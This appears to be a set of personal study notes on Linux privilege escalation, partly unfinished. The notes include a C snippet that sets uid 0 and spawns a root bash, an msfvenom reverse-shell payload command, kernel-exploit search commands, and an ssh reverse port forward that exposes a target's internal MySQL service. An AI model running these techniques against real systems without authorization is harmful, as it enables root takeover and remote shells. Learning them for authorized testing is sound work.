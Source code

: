 ##### special permissions
setuid SUID bit: when set, files get executed with the privileges of the file owner
setgid SGID bit: when this is set on a file, the file will get executed with the privileges of the file group
when set on a directory files created within that directory will inherit the group of the directory itself
effective id: used by most processes to verify a user, real id is only typically used in /etc/passwd (use command "id" for examples, 
```
cat /prox/$$/status | grep "[UG]id" for processes)
```

##### can run executables as root
if SUID is set for /bin/(ba)sh can copy file, rename, and execute with -p

##### custom executable
if a root process executes another process which you can control you can augment process to spawn root shell
example in C:
```
int main() {
	setuid(0);
	system("/bin/bash -p");
}
```
and compile using gcc -o NAME FILENAME.C
msfvenom can also be used to spawn rev shell
```
msfvenom -p linux/x86/shell_reverse_tcp LHOST= LPORT= =f elf shell.elf
```

# tools
linux smart enumeration (lse.sh): bash script

# kernel
usually a last resort as they can be unstable or crash machine 
search kernel with uname -a
searchsploit with kernel version
```
# searchsploit linux kernel 2.6.32 priv esc
```
or better yet, linux exploit suggester
```
# ./linux_exploit_suggester2 -k 2.6.32
```

# service exploits
#### enumerate service
- if vulnterable services are running as root explioiting could lead to priv esc
`$ ps aux | grep "^root"`
- enumerate versions of any programs found
`$<program> --version (-v)`
debian:
`$ dpkg -l | grep <program>`
rpm package manager (redhat):
`$ rpm -qa | grep <program>`

### port forwarding
- possible for root process to be bound to an internal port
- if you cannot exploit locall on target machine it may be possible to forward using ssh to localhost
` $ ssh -R <LOCAL_PORT>:127.0.0.1:<SERVICE_PORT> <USERNAME>@<LOCAL_MACHINE>`

###### example with mysql
on target:
`$ netstat -nl`
`tcp  0  0  127.0.0.1:3306  0.0.0.0:*  LISTEN`
`$ ssh -R 9001:127.0.0.1:3306 dials@192.168.0.129`
on local:


# weak file permissions

# sudo

# cron jobs

# suid/sgid executables

# passwords and keys


# NFS




